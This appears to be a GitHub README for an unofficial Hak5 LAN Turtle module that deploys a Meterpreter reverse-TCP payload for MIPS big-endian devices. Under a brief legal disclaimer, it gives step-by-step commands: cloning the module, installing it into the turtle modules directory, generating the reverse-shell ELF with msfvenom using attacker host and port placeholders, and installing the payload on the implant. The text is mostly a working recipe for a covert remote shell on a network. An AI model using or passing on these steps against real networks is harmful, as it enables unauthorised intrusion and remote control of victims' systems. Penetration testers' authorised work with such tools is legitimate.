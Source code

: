 ## Unofficial custom Hak5 LAN Turtle Module - meterpreter-mipsbe-reverse-tcp

#### LEGAL DISCLAMER
    The author does not hold any responsibility for the bad use of this module, remember that attacking
    targets without prior consent is illegal and punished by law. So use this module responsibly.

#### DOWNLOAD/INSTALL

**1 - On LAN Turtle: download module from github**<br />
`git clone https://github.com/ATTACKnDEFEND/LanTurtlemeterpreter-mipsbe-reverse-tcp`

**2 - On LAN Turtle: copy meterpreter-mipsbe-reverse-tcp to Hak5 Turtle modules directory**<br />
`copy meterpreter-mipsbe-reverse-tcp /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />
`chmod 755 /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />

**3 - On Kali: generate Meterpreter payload with Msfvenom**<br />
`msfvenom -p linux/mipsbe/meterpreter_reverse_tcp LHOST=<HOST> LPORT=<PORT> -f elf > meterpreter-mipsbe-reverse-tcp`

**4 - On LAN Turtle, transfer Meterpreter payload**<br />
transfer meterpreter-mipsbe-reverse-tcp to /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp<br />
`chmod 755 /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />






